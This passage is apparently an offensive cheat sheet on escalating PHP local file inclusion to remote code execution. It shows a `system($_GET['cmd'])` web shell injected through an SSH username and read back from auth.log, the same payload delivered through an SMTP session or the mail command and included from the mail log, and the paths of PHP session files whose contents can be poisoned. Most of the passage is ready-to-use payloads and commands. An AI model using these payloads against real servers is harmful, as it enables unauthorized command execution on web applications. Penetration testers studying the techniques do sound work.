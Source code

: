 ### **RCE via SSH** ###

Try to ssh into the box with a PHP code as username `<?php system($_GET["cmd"]);?>`.

```
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
```

Then include the SSH log files inside the Web Application.

```
http://example.com/index.php?page=/var/log/auth.log&cmd=id
```

### **RCE via Mail** ###

First send an email using the open SMTP then include the log file located at `http://example.com/index.php?page=/var/log/mail`.

```
root@kali:~# telnet 10.10.10.10. 25
Trying 10.10.10.10....
Connected to 10.10.10.10..
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from: mail@example.com
250 2.1.0 Ok
rcpt to: root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject: <?php echo system($_GET["cmd"]); ?>
data2
.
```

In some cases you can also send the email with the `mail` command line.

```
mail -s "<?php system($_GET['cmd']);?>" www-data@10.10.10.10. < /dev/null
```

## **LFI to RCE via PHP sessions** ##

Check if the website use PHP Session (PHPSESSID)

```
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```

In PHP these sessions are stored into /var/lib/php5/sess\_\[PHPSESSID] or /var/lib/php/session/sess\_\[PHPSESSID] files

```
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```
